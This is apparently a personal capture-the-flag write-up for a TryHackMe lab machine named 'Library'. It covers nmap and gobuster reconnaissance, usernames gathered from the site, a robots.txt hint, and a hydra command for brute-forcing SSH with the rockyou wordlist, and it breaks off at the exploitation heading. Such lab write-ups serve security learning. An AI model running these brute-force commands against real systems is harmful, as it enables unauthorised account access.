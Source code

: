 ```sh
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.26 seconds
```
### Notes:
- ssh on port 22
- http on port 80
## http://library.thm/
![[Pasted image 20221111231455.png]]
### Notes:
- Username `meliodas`
Further more,
![[Pasted image 20221111231617.png]]
### Notes:
- users from the comment section:
	- `root` , `www-data` , `Anonymous`
## dir scan with [[gobuster]]
```sh
sami@bt:~/Documents/THM/CTFs/Library$ gobuster dir -u http://library.thm/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -q -o gobuster_results.txt -x txt,php,html,js -t 20
/.htaccess            (Status: 403) [Size: 295]
/.htaccess.html       (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 299]
/.htaccess.js         (Status: 403) [Size: 298]
/.htaccess.txt        (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 295]
/.htpasswd.html       (Status: 403) [Size: 300]
/.htpasswd.txt        (Status: 403) [Size: 299]
/.htpasswd.php        (Status: 403) [Size: 299]
/.htpasswd.js         (Status: 403) [Size: 298]
/images               (Status: 301) [Size: 311] [--> http://library.thm/images/]
/index.html           (Status: 200) [Size: 5439]
/robots.txt           (Status: 200) [Size: 33]
/robots.txt           (Status: 200) [Size: 33]
/server-status        (Status: 403) [Size: 299]
```
## /robots.txt
```html
User-agent: rockyou 
Disallow: /
```
### Notes:
- hint `rockyou` might means `rockyou.txt` wordlist.
- There's no login form found on the website.
- This means that we have no other choice but ssh brute force using User: `meliodas` and `rockyou.txt`.
# Weaponization
## hydra syntax
```sh
sami@bt:~/Documents/THM/CTFs/Library$ hydra -t 4 -V -f -l 'meliodas' -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://library.thm
```
# Exploitation